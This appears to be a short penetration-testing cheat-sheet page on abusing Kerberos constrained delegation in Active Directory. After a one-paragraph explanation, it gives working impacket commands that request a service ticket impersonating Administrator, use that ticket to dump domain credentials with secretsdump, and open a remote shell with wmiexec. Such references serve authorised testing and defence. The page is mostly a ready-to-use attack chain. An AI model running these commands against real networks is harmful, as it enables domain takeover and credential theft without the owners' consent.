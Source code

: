 # AllowedToDelegate



The constrained delegation feature allows a user account to act as any user for certain services specified in the msds-AllowedToDelegateTo LDAP property on a target computer. This means an account with this permission can impersonate anyone, including Domain Admins, for those services on the target machine.&#x20;

## Get Service Ticket

{% code title="With password" overflow="wrap" %}
```bash
impacket-getST -k -impersonate Administrator -spn 'cifs/DC1.DOMAIN.corp'   'DOMAIN/OWNED_USER'
```
{% endcode %}

{% code title="With NTLM" overflow="wrap" %}
```bash
impacket-getST -k -impersonate Administrator -spn 'cifs/DC1.DOMAIN.corp'   'DOMAIN/OWNED_USER' -hashes :NT_HASH
```
{% endcode %}



## Dump credentials with ST

{% code overflow="wrap" %}
```bash
# set the new ST
export KRB5CCNAME=NAME.ccache

# use ST to use secretdump
impacket-secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}



## Connect with WMI

```bash
export KRB5CCNAME=Administrator@cifs.ccache

impacket-wmiexec FQDN/Administrator@DOMAIN.local -k -no-pass
```
